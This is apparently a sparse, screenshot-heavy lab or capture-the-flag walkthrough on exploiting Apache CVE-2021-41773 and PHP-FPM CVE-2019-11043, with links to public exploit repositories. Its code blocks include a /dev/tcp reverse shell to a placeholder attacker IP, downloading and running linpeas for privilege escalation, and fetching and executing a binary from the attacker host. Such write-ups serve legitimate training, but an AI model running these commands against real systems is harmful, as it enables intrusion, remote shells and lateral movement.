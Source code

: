 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b4d4ad3c-1541-447c-a73b-67b7ca1bf72e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0e07a52c-5aa8-4bd7-93be-1fe3457aac05)

https://github.com/thehackersbrain/CVE-2021-41773

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5e03e316-d3b7-4187-a977-1b08db74fba6)
```
echo 'sh -i >& /dev/tcp/IP/1234 0>&1' > /tmp/test.sh
bash /tmp/test.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6edf1dfb-f269-4aa0-994a-79eb5dc28257)

```
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
bash linpeas.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4f187bf2-4316-4949-bdcf-8902ed0246b3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/72e4ebfc-5cc0-41a3-ac9c-35b6b2dda127)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f288dc0d-17c5-4572-b3a7-46a87cb607e8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9a864a1d-7f09-4478-8b9f-5106f7410759)

CVE-2019-11043

https://github.com/moparisthebest/static-curl?tab=readme-ov-file

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/18460f00-9053-4af5-9108-92c3abc2b7eb)
```
wget http://IP:1234/curl-amd64
chmod +x curl-amd64
./curl-amd64 http://127.0.0.1:80
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6987c432-c67c-409f-8dc2-91cc9272f4d0)

https://github.com/jpillora/chisel/releases/tag/v1.9.1



https://github.com/theMiddleBlue/CVE-2019-11043
